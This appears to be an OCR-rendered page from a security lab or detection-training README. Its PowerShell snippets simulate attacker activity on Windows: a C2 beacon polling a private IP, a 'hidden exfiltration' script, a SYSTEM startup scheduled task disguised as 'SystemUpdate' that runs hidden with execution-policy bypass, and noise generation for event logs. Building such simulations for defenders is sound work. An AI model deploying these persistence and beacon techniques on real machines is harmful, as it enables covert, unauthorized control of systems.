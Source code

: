 #### C2 Agent Simulation
```powershell
# Create C2 beacon script
$C2Script = @"
while ($true) {
    try {
        $response = Invoke-WebRequest -Uri "http://192.168.1.100/beacon" -UseBasicParsing
        Start-Sleep -Seconds 30
    }
    catch {
        Start-Sleep -Seconds 60
    }
}
"@
Set-Content -Path "C:\Windows\Temp\c2agent.ps1" -Value $C2Script
```

#### Hidden PowerShell Scripts
```powershell
# Create hidden PowerShell scripts
$HiddenScript = @"
# Hidden data exfiltration script
$data = Get-Process | Select-Object Name, Id, CPU
$data | Out-File -FilePath "C:\Windows\Temp\data.txt" -Append
"@
Set-Content -Path "C:\Windows\Temp\hidden.ps1" -Value $HiddenScript
```

#### Scheduled Tasks with Hidden Commands
```powershell
# Create scheduled tasks with hidden commands
$taskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Windows\Temp\hidden.ps1"
$taskTrigger = New-ScheduledTaskTrigger -AtStartup
Register-ScheduledTask -TaskName "SystemUpdate" -Action $taskAction -Trigger $taskTrigger -User "SYSTEM" -RunLevel Highest
```

#### Continuous Log Generation
```powershell
# Generate continuous Event 4688 (Process Creation)
$processes = @("notepad.exe", "calc.exe", "mspaint.exe", "cmd.exe")
while ($true) {
    $randomProcess = $processes | Get-Random
    Start-Process -FilePath $randomProcess -WindowStyle Hidden
    Start-Sleep -Seconds 5
}

# Generate Event 4624 (Successful Logon)
# This requires actual authentication attempts
```

## 🎯 Attack Scenarios
